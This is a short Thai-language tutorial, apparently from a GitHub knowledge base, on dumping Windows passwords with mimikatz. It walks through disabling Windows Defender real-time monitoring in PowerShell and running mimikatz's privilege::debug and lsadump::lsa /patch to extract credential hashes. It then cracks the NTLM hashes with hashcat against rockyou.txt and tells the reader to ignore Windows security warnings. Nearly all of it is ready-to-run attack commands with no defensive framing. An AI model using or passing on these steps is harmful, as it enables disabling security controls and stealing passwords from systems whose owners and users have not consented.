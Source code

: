 # How to dump password on WindowsOS via Minikaz

Step 1: อันดับแรกจะต้องทำการปิด Antivirus บน Windows ก่อน โดยเราสามารถเข้าไปยัง Powershell ด้วยสิทธิ **Admin** แล้วพิมพ์คำสั่งดังนี้

```sh
# Disable Realtime Protection 
Set-MpPreference -DisableRealtimeMonitoring $true
```
Step 2: จากนั้นเข้าไป Download ไฟล์ Minikatz.exe ได้ตาม 
[Link Download Minikaz](https://github.com/ParrotSec/mimikatz/tree/master/x64) ได้เลย

Step 3: Run Minikatz ด้วยสิทธิ Admin (ไม่ต้องตกใจหากมีการเตือนจาก Windows)
![](/KB/img/Minikaz1.png)

Step 4: รันคำสั่ง

```sh
# ตรวจสอบว่าได้ผลลัพธ์เป็น "Privilege '20' ok" หรือไม่ หากไม่ได้ให้รันด้วยสิทธิ Admin
privilege::debug

# Dump hashes
lsadump::lsa /patch
```

Step 5: Download Hashcat [Link Download Hashcat](https://hashcat.net/hashcat/) 

```sh
# ตรวจสอบ Hashcat 
hashcat --help 
# เลือกใช้ Mode 1000 ซึ่งเป็นการ Crack NTLM Hash 
hashcat -m 1000 <hash> rockyou.txt --show

# Example
#hashcat -m 1000 7ce21f17c0aee7fb9ceba532d0546ad6 rockyou.txt --show
```

![](/KB/img/Minikaz2.png)

Step 6: ถ้า Crack สำเร็จเราจะได้รหัสผ่านกลับมาตามภาพ ซึ่งความเร็วจะขึ้นอยู่กับประสิทธิภาพของเครื่องที่ใช้ Crack และสามารถใช้ Graphic Card ประมวลผลได้ 

![](/KB/img/Minikaz3.png)


**Powered By** : 
Icesuntisuk 
๙ เม.ย.๖๗